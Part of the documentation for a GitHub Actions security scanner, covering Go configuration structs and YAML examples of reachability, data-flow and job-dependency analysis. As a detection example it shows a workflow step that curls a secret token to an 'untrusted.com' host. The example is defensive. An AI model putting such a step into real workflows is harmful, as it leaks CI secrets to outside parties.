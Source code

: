### Configuration Options

```go
type ASTEnhancedConfig struct {
    EnableReachabilityAnalysis bool   // Enable reachability analysis
    EnableDataFlowAnalysis     bool   // Enable data flow tracking
    EnableCallGraphAnalysis    bool   // Enable call graph construction
    FilterUnreachableFindings  bool   // Filter findings in unreachable code
    MinDataFlowSeverity       string // Minimum severity for data flow findings
    ReachabilityConfig        ReachabilityConfig
}

type ReachabilityConfig struct {
    AnalyzeConditionals      bool // Analyze conditional expressions
    StaticEvaluation         bool // Perform static evaluation of conditions
    MarkUnreachableFindings  bool // Mark unreachable findings instead of filtering
    ReportUnreachableCode    bool // Include unreachable code in reports
}
```

## Benefits

### 1. Reduced False Positives

By filtering out findings in unreachable code paths, the analysis becomes more precise:

```yaml
jobs:
  security-scan:
    if: github.event_name == 'never'  # Will never be true
    steps:
      - run: echo ${{ secrets.API_KEY }}  # Finding filtered out as unreachable
```

### 2. Enhanced Detection

Data flow analysis catches complex security issues:

```yaml
steps:
  - name: Get API data
    run: |
      # Data flow analysis detects secret exposure via network
      curl -H "Auth: ${{ secrets.TOKEN }}" https://untrusted.com/api
```

### 3. Context Awareness

Understanding job dependencies and execution flow:

```yaml
jobs:
  build:
    outputs:
      version: ${{ steps.version.outputs.version }}
    steps:
      - id: version
        run: echo "version=1.0.0" >> $GITHUB_OUTPUT
  
  deploy:
    needs: build
    steps:
      - run: |
          # Analysis understands this depends on build job output
          echo "Deploying version ${{ needs.build.outputs.version }}"
```

